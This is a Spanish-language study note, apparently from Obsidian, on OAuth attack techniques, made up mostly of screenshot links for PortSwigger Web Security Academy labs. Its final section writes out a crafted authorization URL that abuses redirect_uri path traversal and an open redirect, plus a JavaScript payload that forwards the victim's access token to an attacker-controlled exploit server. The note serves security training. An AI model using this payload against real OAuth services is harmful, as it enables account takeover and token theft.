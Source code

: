  OAuth, al ser un protocolo ampliamente utilizado para la autorización segura, también presenta ciertos riesgos y vectores de ataque que los atacantes pueden intentar explotar. A continuación, se describen algunos de los ataques comunes contra OAuth y las medidas de mitigación recomendadas para proteger contra estos ataques.

### Ataques Comunes contra OAuth

1. **Ataque de Redirección Maliciosa**
2. **Ataques de Phishing**
3. **Reutilización del Código de Autorización**
4. **Manipulación del Token de Acceso**
5. **Ataques de Intercepción (Man-in-the-Middle)**
6. **Ataque de Falsificación de Solicitud del Lado del Servidor (SSRF)**
7. **Confusión de Confianza**
# Omisión de autenticación mediante flujo implícito de OAuth

![[01.OmisiondeAutenticacion.png]]
![[02.OmisiondeAutenticacion.png]]
![[03.OmisiondeAutenticacion.png]]
![[04.OmisiondeAutenticacion.png]]
![[05.OmisiondeAutenticacion.png]]
![[06.OmisiondeAutenticacion.png]]

# SSRF a través del registro dinámico de clientes OpenID

![[01.SSRF_OpenID.png]]
![[02.SSRF_OpenID.png]]
![[03.SSRF_OpenID.png]]
![[04.SSRF_OpenID.png]]
![[05.SSRF_OpenID.png]]
![[06.SSRF_OpenID.png]]
![[07.SSRF_OpenID.png]]
![[08.SSRF_OpenID.png]]
![[09.SSRF_OpenID.png]]
![[10.SSRF_OpenID.png]]
![[11.SSRF_OpenID.png]]
![[12.SSRF_OpenID.png]]

# Vinculación forzada de perfiles OAuth

![[01.VinculacionForzada.png]]
![[02.VinculacionForzada.png]]
![[03.VinculacionForzada.png]]
![[04.VinculacionForzada.png]]
![[05.VinculacionForzada.png]]
![[06.VinculacionForzada.png]]
![[07.VinculacionForzada.png]]
![[08.VinculacionForzada.png]]
![[09.VinculacionForzada.png]]

# Secuestro de cuentas OAuth a través de redirect_uri

![[01.Secuestro_Cuentas.png]]
![[02.Secuestro_Cuentas.png]]
![[03.Secuestro_Cuentas.png]]
![[04.Secuestro_Cuentas.png]]
![[05.Secuestro_Cuentas.png]]

# Robo de tokens de acceso OAuth a través de una redirección abierta

![[Pasted image 20240730200038.png]]
![[Pasted image 20240730200205.png]]

 `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
![[Pasted image 20240730201526.png]]
![[Pasted image 20240730202411.png]]
```
<script> if (!document.location.hash) { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' } else { window.location = '/?'+document.location.hash.substr(1) } </script>
```
![[Pasted image 20240730202920.png]]

Volvemos a ingresar a esta direccion con los cambios

`https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
![[Pasted image 20240730205540.png]]
![[Pasted image 20240730205803.png]]
![[Pasted image 20240730205817.png]]
![[Pasted image 20240801004134.png]]
![[Pasted image 20240801004156.png]]
